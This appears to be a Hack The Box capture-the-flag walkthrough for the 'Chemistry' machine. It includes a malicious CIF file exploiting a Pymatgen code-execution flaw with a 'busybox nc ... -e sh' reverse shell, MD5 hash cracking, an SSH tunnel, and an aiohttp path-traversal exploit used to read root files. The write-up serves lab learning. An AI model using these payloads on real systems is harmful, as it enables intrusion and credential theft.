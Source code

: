 <br><br>
**Platform : Hack The Box**

**Box : Chemistry**

**Difficulty : Easy**

**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
![alt text](<Pasted image 20241023002915-1.png>)
<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> data_Example
>
> audit_creation_date            2018-06-08
> 
> _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
> 
> loop
> 
> parent_propagation_vector.id
> 
> _parent_propagation_vector.kxkykz
> 
> k1 [0 0 0]
> 
> 
> _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'
> 
> 
> 
> _space_group_magn.number_BNS  62.448
> 
> _space_group_magn.name_BNS  "P  n'  m  a'  "
> 
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![alt text](<Pasted image 20241023004209-1.png>)

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![alt text](<Pasted image 20241023010333-1.png>)

<br><br>

![alt text](<Pasted image 20241023010740-1.png>)

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![alt text](<Pasted image 20241102202421.png>)

<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost

<br><br>

![alt text](<Pasted image 20241023012150-1.png>)

<br><br>

To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:

<br><br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*

<br><br>

![alt text](<Pasted image 20241023010205.png>) 

<br><br>

and this is the first result if i search it on google:

<br><br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>

![alt text](<Pasted image 20241102200634.png>)

<br><br>

And...

<br><br>

![alt text](<Pasted image 20241102201153.png>)

<br><br>

Success! We have code execution as root user!
